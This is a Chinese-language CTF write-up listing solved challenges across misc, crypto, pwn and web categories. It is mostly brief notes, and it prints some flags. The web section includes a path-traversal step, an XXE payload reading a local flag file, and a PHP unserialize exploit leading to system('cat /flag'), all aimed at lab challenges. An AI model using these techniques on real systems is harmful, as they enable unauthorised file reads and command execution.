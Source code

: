 # CTF WP (ZUENS2020)


## 安全杂项
- Misc入门指北 ✅
    - 附件PDF中的隐藏字段
- ez_LSB ✅
    - 使用StegSolve
    ![StegSolve]
- SSTV ✅
    ![SSTV]
- 掐住一只耳 ✅
    - 使用Audacity可以发现左声道的摩斯电码
    ![moss]
- Enchantment ✅
    - 使用tshark从enchantment.pcapng中找出图片-AI
    ![SGA]
    - 解开SGA银河字母[https://www.dcode.fr/standard-galactic-alphabet]
- ez_png ✅
    - 理解 PNG 文件结构:    -AI
       PNG 格式由一连串 chunk（数据块）组成，每个 chunk 包括：
      | 4字节长度 | 4字节块类型 | 数据区 | 4字节CRC |
      常见的块类型：
        IHDR：文件头信息（宽度、高度、颜色类型等）
        IDAT：图像压缩数据，可有多个
        IEND：文件尾标识
    - 使用工具查看chunk[https://www.nayuki.io/page/png-file-chunk-inspector]
    - 发现可疑块
    ![chunk]
    - 解码899 007部分 -AI
    ![Zlib]

## 从此开始
- 签到 ✅

## 二进制漏洞审计
- 0 二进制漏洞审计入门指北 ✅
- 1 ez_u64 ✅
- 2 EZtext
- fmt
- randomlock
- str_check
- syslock
- easylibc
- fmt_S

## 密码学
- Crypto入门指北 ✅
- ez_DES ✅
- baby_next ✅
- ez_square ✅
- ezlegendre ✅

## 逆向工程
- 逆向工程入门指北
- upx
- ez3
- flower
- A cup of tea
- mazegame

## Web安全与渗透测试
- 0 Web入门指北 ✅
    - 把附件中的代码复制到控制台中获得flag 
- 01 第一章 神秘的手镯 ✅
    - 查看页面源代码发现
    ```
    <script src="shouzhuo.js"></script>
    ```
    - 打开shouzhuo.js发现
    ```
    <div class="flag">moectf{f_i2_1s_Your_g00d_fri3nd!!}</div>
    ```
    - 得到flag
- 02 第二章 初识金曜玄轨 ✅
    - 通过Wireshark分析
    - 在对/golden_trail的http包进行分析后发现
    ```
    /golden_trail/flag
    ```
    - 得到flag
- 03 第三章 向剑石！算天攻击! ✅
    - 使用burpsuit修改测试请求
    ```
    POST /test_talent?level=S HTTP/1.1
    Host: 127.0.0.1:11055
    Content-Length: 24
    Content-Type: application/json
    Accept: */*
    Accept-Encoding: gzip, deflate, br
    Accept-Language: zh-CN,zh;q=0.9
    Connection: keep-alive
    Origin: http://127.0.0.1:11055
    Referer: http://127.0.0.1:11055/
    Sec-Ch-Ua: "Chromium";v="139", "Not;A=Brand";v="99"
    Sec-Ch-Ua-Mobile: ?0
    Sec-Fetch-Dest: empty
    Sec-Fetch-Mode: cors
    Sec-Fetch-Site: same-origin
    Sec-Ch-Ua-Platform: "Windows"
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36

    {"manifestation":"flowing_azure_clouds"}
    ```
    - 得到flag
- 05 第五章 打上门来! ✅
    - （本题有后面题目的提示）
    - 使用../访问文件目录    ------询问AI
    - 阅读index.php了解逻辑
    ```
    <!-- 上级目录链接 -->
    <?php if ($target !== './' && $target !== '/' && $target !== ''): ?>
        <tr>
            <td class="folder-cell" onclick="navigateTo(
                '<?php echo dirname($target) === '.' ? './' : dirname($target); ?>'
            )">
                <i class="fas fa-level-up-alt"></i> ..
            </td>
            <td>上级信标库</td>
        </tr>
    <?php endif; ?>

    <!-- 实际文件系统中的内容 -->
    <?php
    $entries = scandir($now_target);
    foreach ($entries as $entry):
        if ($entry === '.' || $entry === '..') continue;
        $fullPath = rtrim($target, '/') . '/' . $entry;
        $judgePath = rtrim($now_target, '/') . '/' . $entry;
        if (is_dir($judgePath)):
    ```
    - 尝试使用../../进入根目录，得到flag
- Moe笑传之猜猜爆 ✅
- 04 第四章 金曜极禁与七绝伶俐阵
- 06 第六章 藏经禁地？玄机初探!
- 07 第七章 灵媒妖穴与阴阳双生符
- 08 第八章 天行真言，星图显圣
- 10 第十章 天机符阵 ✅
    - 输入内容发现报错信息特点，使用题目已知元素
    ```xml
    <?xml version="1.0"?> 
    <!DOCTYPE 阵枢 [ 
        <!ENTITY xxe SYSTEM "file:///var/www/html/flag.txt">
    ]>
    <阵枢>
        &lt;解析>&xxe;&lt;/解析>
    </阵枢>
    ```
    - 尝试使用 <阵枢> 作为根元素，<解析> 作为包含实体引用的子元素。-----AI
- 19 第十九章 星穹真相·补天归源 ✅
    - 观察页面发现题目是一段PHP代码
    - 发现核心漏洞：unserialize($_GET['person']) ----AI
    - 漏洞可以执行用户输入的内容
    - 在 PersonC::__Check() 方法中，绕过 flag 检查，并利用其中的 $name($age) 最终执行 system('cat /flag') ----AI



[StegSolve]:https://cdn.luogu.com.cn/upload/image_hosting/edtwi6vn.png?x-oss-process=image/resize,m_lfit,h_170,w_225

[SSTV]:https://cdn.luogu.com.cn/upload/image_hosting/u4kcc7iv.png

[moss]:https://cdn.luogu.com.cn/upload/image_hosting/2k7ni7yn.png?x-oss-process=image/resize,m_lfit,h_170,w_225

[SGA]:https://cdn.luogu.com.cn/upload/image_hosting/082kb65a.png?x-oss-process=image/resize,m_lfit,h_170,w_225

[chunk]:https://cdn.luogu.com.cn/upload/image_hosting/bw3glndu.png?x-oss-process=image/resize,m_lfit,h_170,w_225

[Zlib]:https://cdn.luogu.com.cn/upload/image_hosting/s1by0js1.png
